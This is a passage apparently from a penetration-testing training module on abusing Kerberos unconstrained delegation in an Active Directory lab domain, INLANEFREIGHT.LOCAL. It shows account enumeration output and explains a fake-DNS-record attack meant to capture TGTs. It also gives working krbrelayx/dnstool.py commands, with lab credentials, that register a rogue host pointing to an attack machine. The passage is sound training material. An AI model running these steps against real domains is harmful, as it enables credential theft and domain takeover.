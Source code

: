 ```powershell-session
instancetype          : 4
objectguid            : f71224a5-baa7-4aec-bfe9-56778184dc63
lastlogon             : 12/31/1600 7:00:00 PM
lastlogoff            : 12/31/1600 7:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata : {7/30/2020 3:09:16 AM, 7/30/2020 3:09:16 AM, 7/28/2020 1:45:00 AM, 7/28/2020 1:34:13 AM...}
serviceprincipalname  : MSSQL_svc_dev/inlanefreight.local:1443
memberof              : CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
whencreated           : 7/27/2020 6:46:20 PM
badpwdcount           : 0
cn                    : sqldev
useraccountcontrol    : NORMAL_ACCOUNT, TRUSTED_FOR_DELEGATION
usncreated            : 14648
primarygroupid        : 513
pwdlastset            : 7/27/2020 2:46:20 PM
usnchanged            : 90194
```

If we somehow managed to compromise this account (i.e., `sqldev`), we also need to be able to update its SPN list, so we need an account with `GenericWrite` privileges on the compromised account.

We can leverage this unconstrained delegation privilege to become a domain administrator if these conditions are met.

This attack aims to create a DNS record that will point to our attack machine. This DNS record will be a fake computer in the Active Directory environment. Once this DNS record is registered, we will add the SPN `CIFS/our_dns_record` to the account we compromised, which is in an unconstrained delegation. So, if a victim tries to connect via SMB to our fake machine, it will ship a copy of its TGT in its TGS ticket since it will ask for a ticket for `CIFS/our_registration_dns`. This TGS ticket will be sent to the IP address we chose when registering the DNS record, i.e., our attack machine. All we have to do then is extract the TGT and use it.

We will use Dirkjanm's [krbrelayx](https://github.com/dirkjanm/krbrelayx) tools suite for this attack.

First, we'll use `dnstool.py` to add a fake DNS record `roguecomputer.inlanefreight.local` pointing to our attack host `10.10.14.2` using any valid domain account.

#### Create a Fake DNS Record
```shell-session
slomkm@htb[/htb]$ git clone -q https://github.com/dirkjanm/krbrelayx; cd krbrelayx
slomkm@htb[/htb]$ python dnstool.py -u INLANEFREIGHT.LOCAL\\pixis -p p4ssw0rd -r roguecomputer.INLANEFREIGHT.LOCAL -d 10.10.14.2 --action add 10.129.1.207    

[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

We can verify if the DNS record has been created using `nslookup`.

